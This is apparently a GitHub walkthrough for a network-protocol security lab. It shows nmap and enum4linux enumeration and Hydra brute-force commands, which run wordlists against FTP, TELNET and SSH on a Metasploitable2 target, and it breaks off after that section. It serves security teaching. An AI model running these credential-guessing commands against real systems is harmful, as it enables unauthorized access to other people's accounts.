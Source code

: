# 🧪 Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective
The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 📂 Lab Environment Setup
- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)

---

## 🛠️ Tools Used
- **Hydra**
- **Burp Suite** (Community or Pro)
- **Wireshark** / **tcpdump**
- **Wordlists** (e.g., `rockyou.txt`, `userlist.txt`)

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

## 1.1 Nmap scan
Performed an initial scan to discover open services.

---

## 🛠️ Commands Used
```bash
nmap -p 21,23,22,80 <target-ip> 
```

![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

## 1.2 Enum4linux Enumeration
Since ports (21,23,22,80) are open, used enum4linux to gather more usernames.

---

## 🛠️ Commands Used
```bash
enum4linux -a <target-ip> 
```
![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

# 🔐 Task 2: Brute Force Attacks

## 2.1 FTP / TELNET / SSH
Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L userlist.txt -P passlist.txt ftp://<target-ip>

# Brute force TELNET login
hydra -L userlist.txt -P passlist.txt telnet://<target-ip>

# Brute force SSH login
hydra -L userlist.txt -P passlist.txt ssh://<target-ip>
```

---
